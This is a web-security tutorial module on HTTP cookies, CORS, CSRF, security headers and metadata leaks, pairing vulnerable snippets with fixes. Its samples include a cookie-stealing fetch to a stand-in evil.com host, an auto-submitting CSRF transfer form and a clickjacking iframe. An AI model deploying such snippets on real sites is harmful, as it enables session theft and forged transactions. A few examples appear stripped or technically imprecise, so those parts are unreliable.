



# 🔒 Module 03: HTTP Security (Deep, Practical)

**Difficulty:** 🟢 Fundamentals  
**Time:** 90-120 minutes

---

## What You'll Learn

- HTTP fundamentals from a security perspective
- Cookies (Secure, HttpOnly, SameSite)
- CORS (what it is, how it fails)
- CSRF attacks and defense
- Security headers that actually matter
- Why HTTP metadata leaks data

---

## HTTP Is Stateless (And Why That Matters)

### The Core Problem



**HTTP has no built-in notion of "sessions" or "logged-in users."**

### The Solution: State Management

We fake statefulness using:
1. **Cookies** (most common)
2. **Bearer tokens** (APIs)
3. **URL parameters** (old, insecure)

---

## Cookies: Deep Dive

### What Is a Cookie?

A cookie is a **key-value pair stored by the browser and sent with every request to that domain**.

```http
HTTP/1.1 200 OK
Set-Cookie: session=abc123; Domain=example.com; Path=/; HttpOnly; Secure; SameSite=Strict
```

---

### Cookie Attributes (Security-Critical)

#### 1. `HttpOnly`

**What it does:** Prevents JavaScript from accessing the cookie.

```typescript
// Without HttpOnly
res.cookie('session', token);

// JavaScript can steal it:
const stolen = document.cookie;
fetch(`https://evil.com/steal?cookie=${stolen}`);
```

```typescript
// With HttpOnly
res.cookie('session', token, { httpOnly: true });

// JavaScript cannot access it:
console.log(document.cookie);  // Empty (doesn't include HttpOnly cookies)
```

**When to use:** Always, for authentication tokens.

---

#### 2. `Secure`

**What it does:** Only sends cookie over HTTPS.

```typescript
res.cookie('session', token, {
  secure: true  // ← Only sent over HTTPS
});
```

**Why it matters:** Without `Secure`, cookies are sent over HTTP and can be intercepted.

**When to use:** Always in production. In development, conditionally:

```typescript
res.cookie('session', token, {
  secure: process.env.NODE_ENV === 'production'
});
```

---

#### 3. `SameSite`

**What it does:** Controls when cookies are sent with cross-site requests.

| Value | Behavior |
|-------|----------|
| `Strict` | Cookie never sent on cross-site requests |
| `Lax` | Cookie sent on cross-site **top-level navigation** (clicks), not AJAX |
| `None` | Cookie always sent (requires `Secure`) |

**Example:**

```typescript
// Strictest (recommended for auth)
res.cookie('session', token, { sameSite: 'strict' });

// More lenient (needed for OAuth callbacks)
res.cookie('oauth_state', state, { sameSite: 'lax' });

// Permissive (needed for embedding)
res.cookie('tracking', id, { sameSite: 'none', secure: true });
```

---

### SameSite Example

**Scenario:** User is logged into `bank.com`.

```html
<!-- Attacker's site: evil.com -->

```

| SameSite Setting | Cookie Sent? | Transfer Happens? |
|------------------|--------------|-------------------|
| `None` | ✅ Yes | ✅ Yes (CSRF!) |
| `Lax` | ❌ No | ❌ No |
| `Strict` | ❌ No | ❌ No |

**Recommendation:** Use `Strict` for session cookies unless you have a specific need for `Lax`.

---

### Cookie Scope: Domain and Path

#### Domain

```typescript
// Cookie sent to example.com and all subdomains
res.cookie('session', token, { domain: '.example.com' });

// Cookie sent only to api.example.com
res.cookie('session', token, { domain: 'api.example.com' });
```

**Security risk:** Overly broad `Domain` allows subdomain attacks.

```typescript
// Bad: Cookie shared with all subdomains
res.cookie('session', token, { domain: '.example.com' });

// If attacker controls evil.example.com, they can:
// 1. Set a cookie with the same name
// 2. Override or steal the session
```

---

#### Path

```typescript
// Cookie only sent to /admin/* paths
res.cookie('admin_session', token, { path: '/admin' });
```

**Security risk:** `Path` is NOT a security boundary.

```javascript
// JavaScript can still read cookies from other paths (if not HttpOnly)
document.cookie = 'admin_session=stolen; path=/admin';
```

---

### Complete Secure Cookie Example

```typescript
// Authentication cookie (best practices)
res.cookie('session', sessionId, {
  httpOnly: true,      // ← XSS protection
  secure: true,        // ← HTTPS only
  sameSite: 'strict',  // ← CSRF protection
  maxAge: 3600000,     // ← 1 hour expiration
  path: '/'
});
```

---

## CORS (Cross-Origin Resource Sharing)

### The Problem

**Remember Same-Origin Policy?** By default, browsers block cross-origin requests.

```javascript
// Page: https://example.com
fetch('https://api.otherdomain.com/data')  // ← Blocked by SOP
  .catch(err => console.error('CORS error'));
```

**CORS allows servers to explicitly permit cross-origin requests.**

---

### How CORS Works



---

### CORS Headers

#### 1. `Access-Control-Allow-Origin`

**What it does:** Specifies which origins can access the resource.

```typescript
// Allow specific origin
res.setHeader('Access-Control-Allow-Origin', 'https://example.com');

// Allow all origins (dangerous!)
res.setHeader('Access-Control-Allow-Origin', '*');
```

**Security mistake: Trusting `Origin` header**

```typescript
// VULNERABLE
app.use((req, res, next) => {
  const origin = req.headers.origin;
  res.setHeader('Access-Control-Allow-Origin', origin);  // ← Reflects any origin!
  next();
});
```

**Attacker can:**
```javascript
fetch('https://api.example.com/admin', {
  headers: { 'Origin': 'https://evil.com' }
});
// Server responds with: Access-Control-Allow-Origin: https://evil.com
// Browser allows attacker to read response!
```

**Fix: Whitelist allowed origins**

```typescript
const allowedOrigins = ['https://example.com', 'https://app.example.com'];

app.use((req, res, next) => {
  const origin = req.headers.origin;
  
  if (allowedOrigins.includes(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
  }
  
  next();
});
```

---

#### 2. `Access-Control-Allow-Credentials`

**What it does:** Allows cookies to be sent with cross-origin requests.

```typescript
res.setHeader('Access-Control-Allow-Origin', 'https://example.com');
res.setHeader('Access-Control-Allow-Credentials', 'true');
```

**Security requirement:** Cannot use `*` with credentials.

```typescript
// INVALID (browser will reject)
res.setHeader('Access-Control-Allow-Origin', '*');
res.setHeader('Access-Control-Allow-Credentials', 'true');
```

---

#### 3. Preflight Requests

For "complex" requests (e.g., `PUT`, `DELETE`, custom headers), browsers send an `OPTIONS` request first.

```typescript
// Handle preflight
app.options('/api/data', (req, res) => {
  res.setHeader('Access-Control-Allow-Origin', 'https://example.com');
  res.setHeader('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
  res.setHeader('Access-Control-Max-Age', '86400');  // Cache for 24 hours
  res.sendStatus(204);
});
```

---

### Common CORS Misconfigurations

#### 1. Allowing All Origins

```typescript
// Bad
res.setHeader('Access-Control-Allow-Origin', '*');
```

**Risk:** Any site can make requests to your API.

---

#### 2. Reflecting Origin Without Validation

```typescript
// Bad
res.setHeader('Access-Control-Allow-Origin', req.headers.origin);
```

**Risk:** Attacker-controlled origin is trusted.

---

#### 3. Regex Vulnerabilities

```typescript
// Bad
const origin = req.headers.origin;
if (/example\.com$/.test(origin)) {  // ← Missing ^
  res.setHeader('Access-Control-Allow-Origin', origin);
}

// Attacker uses: https://evil-example.com
// Regex matches! ✓
```

**Fix:**
```typescript
if (/^https:\/\/([a-z]+\.)?example\.com$/.test(origin)) {
  res.setHeader('Access-Control-Allow-Origin', origin);
}
```

---

## CSRF (Cross-Site Request Forgery)

### What Is CSRF?

**CSRF tricks a user's browser into making unintended requests to a site they're authenticated to.**

### Example Attack

1. User logs into `bank.com`
2. User visits `evil.com` (while still logged in)
3. `evil.com` contains:

```html
<form action="https://bank.com/transfer" method="POST" id="csrf">
  <input name="to" value="attacker">
  <input name="amount" value="1000">
</form>

<script>
  document.getElementById('csrf').submit();
</script>
```

4. Browser sends request **with user's cookies** (authenticated!)
5. Transfer executes

---

### CSRF Flow Diagram



---

### CSRF Defense: SameSite Cookies

```typescript
res.cookie('session', token, {
  sameSite: 'strict'  // ← Prevents CSRF
});
```

**With `SameSite=Strict`**, the cookie is not sent with cross-site requests.

---

### CSRF Defense: CSRF Tokens

**For forms and state-changing requests:**

```typescript
// 1. Generate token (server-side)
const csrfToken = crypto.randomBytes(32).toString('hex');
req.session.csrfToken = csrfToken;

// 2. Embed in form
res.render('transfer', { csrfToken });
```

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="_csrf" value="<%= csrfToken %>">
  <input name="to" placeholder="Recipient">
  <input name="amount" placeholder="Amount">
  <button type="submit">Transfer</button>
</form>
```

```typescript
// 3. Validate token (server-side)
app.post('/transfer', (req, res) => {
  if (req.body._csrf !== req.session.csrfToken) {
    return res.status(403).json({ error: 'Invalid CSRF token' });
  }
  
  // Process transfer...
});
```

---

### CSRF Defense: Custom Headers (APIs)

**For AJAX/fetch requests:**

```javascript
// Frontend
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': csrfToken  // ← Custom header
  },
  body: JSON.stringify({ to: 'recipient', amount: 1000 })
});
```

```typescript
// Backend
app.post('/api/transfer', (req, res) => {
  const csrfToken = req.headers['x-csrf-token'];
  
  if (csrfToken !== req.session.csrfToken) {
    return res.status(403).json({ error: 'Invalid CSRF token' });
  }
  
  // Process transfer...
});
```

**Why this works:** Attackers cannot set custom headers on cross-origin form submissions.

---

## Security Headers

### 1. `Strict-Transport-Security` (HSTS)

**What it does:** Forces browsers to use HTTPS.

```typescript
res.setHeader('Strict-Transport-Security', 'max-age=31536000; includeSubDomains; preload');
```

**Prevents:** SSL stripping attacks (MITM downgrade to HTTP).

---

### 2. `X-Frame-Options`

**What it does:** Prevents your site from being embedded in iframes.

```typescript
res.setHeader('X-Frame-Options', 'DENY');  // Never allow framing
// or
res.setHeader('X-Frame-Options', 'SAMEORIGIN');  // Allow same-origin framing
```

**Prevents:** Clickjacking attacks.

#### Clickjacking Example

```html
<!-- Attacker's site -->
<iframe src="https://bank.com/transfer" style="opacity: 0; position: absolute;"></iframe>
<button style="position: absolute; top: 100px; left: 200px;">
  Click here for free money!
</button>
```

User thinks they're clicking the button, but they're actually clicking the hidden iframe.

---

### 3. `X-Content-Type-Options`

**What it does:** Prevents MIME type sniffing.

```typescript
res.setHeader('X-Content-Type-Options', 'nosniff');
```

**Prevents:** Browser from interpreting responses as different content types.

**Example vulnerability:**

```typescript
// Server returns JSON as text/plain
res.setHeader('Content-Type', 'text/plain');
res.send('{"secret": "value"}');

// Without nosniff, browser might execute it as JavaScript if included in <script> tag
```

---

### 4. `Content-Security-Policy` (CSP)

**What it does:** Controls which resources can be loaded.

```typescript
res.setHeader('Content-Security-Policy', 
  "default-src 'self'; script-src 'self' https://cdn.example.com; img-src *; style-src 'self' 'unsafe-inline'"
);
```

**Prevents:** XSS attacks (we'll cover this more in Module 05).

---

### 5. `Referrer-Policy`

**What it does:** Controls how much referrer information is sent.

```typescript
res.setHeader('Referrer-Policy', 'strict-origin-when-cross-origin');
```

**Options:**
- `no-referrer` — Never send referrer
- `strict-origin-when-cross-origin` — Send origin on cross-origin, full URL on same-origin
- `same-origin` — Only send referrer for same-origin requests

**Why it matters:** Referrer headers can leak sensitive data (tokens in URLs, etc.).

---

### 6. `X-XSS-Protection` (Legacy)

**Status:** Deprecated (modern browsers ignore it).

**Modern alternative:** Content-Security-Policy.

---

### Complete Security Headers Setup

```typescript
import helmet from 'helmet';

app.use(helmet({
  strictTransportSecurity: {
    maxAge: 31536000,
    includeSubDomains: true,
    preload: true
  },
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "https://cdn.example.com"],
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["*"],
      connectSrc: ["'self'", "https://api.example.com"],
      fontSrc: ["'self'", "https://fonts.googleapis.com"],
      objectSrc: ["'none'"],
      upgradeInsecureRequests: []
    }
  },
  referrerPolicy: { policy: 'strict-origin-when-cross-origin' }
}));
```

---

## HTTP Methods and Security

### Safe vs Unsafe Methods

| Method | Safe? | Idempotent? | Should Change State? |
|--------|-------|-------------|---------------------|
| GET | ✅ Yes | ✅ Yes | ❌ No |
| POST | ❌ No | ❌ No | ✅ Yes |
| PUT | ❌ No | ✅ Yes | ✅ Yes |
| DELETE | ❌ No | ✅ Yes | ✅ Yes |
| PATCH | ❌ No | ❌ No | ✅ Yes |

**Security principle:** GET requests should never change state.

### Anti-Pattern: State-Changing GET

```typescript
// BAD: Delete via GET
app.get('/api/users/:id/delete', async (req, res) => {
  await db.users.delete(req.params.id);
  res.json({ success: true });
});

// Attackers can trigger with:
// 
```

**Fix:** Use POST/DELETE for state-changing operations.

```typescript
// GOOD: Delete via DELETE
app.delete('/api/users/:id', requireAuth, async (req, res) => {
  // Check authorization...
  await db.users.delete(req.params.id);
  res.json({ success: true });
});
```

---

## Why HTTP Metadata Leaks Data

### Headers Leak Information

```http
HTTP/1.1 200 OK
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: Express
X-AspNet-Version: 4.0.30319
```

**What attackers learn:**
- Server software (Apache)
- Version (2.4.41)
- OS (Ubuntu)
- Framework (Express, ASP.NET)

**Mitigation:** Remove or obfuscate version headers.

```typescript
app.disable('x-powered-by');
```

---

### Status Codes Leak Information

```typescript
// Login endpoint
app.post('/login', async (req, res) => {
  const { username, password } = req.body;
  
  const user = await db.users.findByUsername(username);
  if (!user) {
    return res.status(404).json({ error: 'User not found' });  // ← LEAKS INFO
  }
  
  if (!bcrypt.compareSync(password, user.passwordHash)) {
    return res.status(401).json({ error: 'Invalid password' });  // ← LEAKS INFO
  }
  
  res.json({ token: generateToken(user) });
});
```

**Problem:** Different error messages reveal whether username exists.

**Fix:**
```typescript
app.post('/login', async (req, res) => {
  const { username, password } = req.body;
  
  const user = await db.users.findByUsername(username);
  
  if (!user || !bcrypt.compareSync(password, user.passwordHash)) {
    return res.status(401).json({ error: 'Invalid credentials' });  // ← Generic message
  }
  
  res.json({ token: generateToken(user) });
});
```

---

### Timing Attacks

```typescript
// VULNERABLE
function comparePassword(input, stored) {
  if (input.length !== stored.length) return false;
  
  for (let i = 0; i < input.length; i++) {
    if (input[i] !== stored[i]) return false;  // ← Early return leaks timing info
  }
  
  return true;
}
```

**Attacker can measure response time to guess password character by character.**

**Fix: Use constant-time comparison**

```typescript
import crypto from 'crypto';

function comparePassword(input, stored) {
  return crypto.timingSafeEqual(
    Buffer.from(input),
    Buffer.from(stored)
  );
}
```

---

## Summary

1. **HTTP is stateless** — we fake state with cookies/tokens
2. **Cookies** need `HttpOnly`, `Secure`, `SameSite` for security
3. **CORS** allows cross-origin requests but must be configured carefully
4. **CSRF** tricks browsers into making unintended requests
5. **Security headers** provide defense in depth
6. **GET requests** should never change state
7. **HTTP metadata** (headers, status codes, timing) can leak information

---

## Exercises

### Exercise 1: Inspect Cookies
1. Open your favorite site
2. DevTools → Application → Cookies
3. Check which cookies have `HttpOnly`, `Secure`, `SameSite`
4. Are auth cookies properly secured?

### Exercise 2: Test CORS
```bash
# Test CORS configuration
curl -H "Origin: https://evil.com" -I https://api.example.com/data
# Look for Access-Control-Allow-Origin header
```

### Exercise 3: Check Security Headers
```bash
curl -I https://example.com
```

Look for:
- `Strict-Transport-Security`
- `X-Frame-Options`
- `Content-Security-Policy`
- `X-Content-Type-Options`

---

## What's Next?

Now that you understand HTTP security mechanisms, let's tackle authentication and authorization.

→ **Next: [Module 04: Authentication & Authorization](../04-authentication-authorization/01-auth-fundamentals.md)**

---

## Further Reading

- [MDN: HTTP Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [MDN: CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [OWASP: CSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
